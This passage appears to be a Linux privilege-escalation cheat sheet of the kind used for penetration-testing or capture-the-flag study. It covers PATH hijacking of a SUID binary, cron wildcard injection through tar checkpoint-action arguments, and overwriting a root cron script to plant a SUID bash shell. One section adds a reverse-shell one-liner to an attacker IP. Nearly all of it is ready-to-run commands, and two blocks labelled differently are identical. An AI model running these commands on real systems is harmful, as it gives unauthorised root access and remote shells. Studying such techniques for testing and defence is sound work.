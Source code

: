 - (exploitation using echo command)
```bash
./shell2
cd /tmp
echo "/bin/bash" > ps
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH
cd /home/raj/script
./shell2
```
- (exploitation using copy command)
 ```bash
./shell2
cd /tmp
echo "/bin/bash" > ps
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH
cd /home/raj/script
./shell2
 ```

7. cronjob wildcard
- Detection: `cat /etc/crontab`, find cron job that run every 1-2 min as root.
- cat to see the code in the cron job script, to see if there is any wildcard we can use
- find the directory that the cronjob task is run at e.g. /home/user
- find the wildcard(*) in the cronjob script
- The -p tells the terminal to execute a binary but with permissions of the owner(in our case root).
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh           # if runme.sh doesn’t exist, make it exist
chmod +x runme.sh
touch /home/user/ -- checkpoint=1
touch /home/user/ -- checkpoint-action=exec=sh\runme.sh

<<<wait for 1 min for cron job>>>
/tmp/bash -p
id
whoami
```

8. cronjob cron file overwrite
- Detection: `cat /etc/crontab`, find cron job that run every 1-2 min as root
- `locate overwrite.sh` to overwrite the script in overwrite.sh (usually found in user’s home directory)
- we can also overwrite to get reverse shell instead of getting local shell using ----  `echo "bash -i >& /dev/tcp/<KALI-IP>/<PORT> 0>&1" > overwrite.sh`
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh            # if overwrite.sh doesn’t exist, make it exist
chmod +x /home/user/overwrite.sh

<<<wait for 1 min for cron job>>>
/tmp/bash -p
id
whoami
```
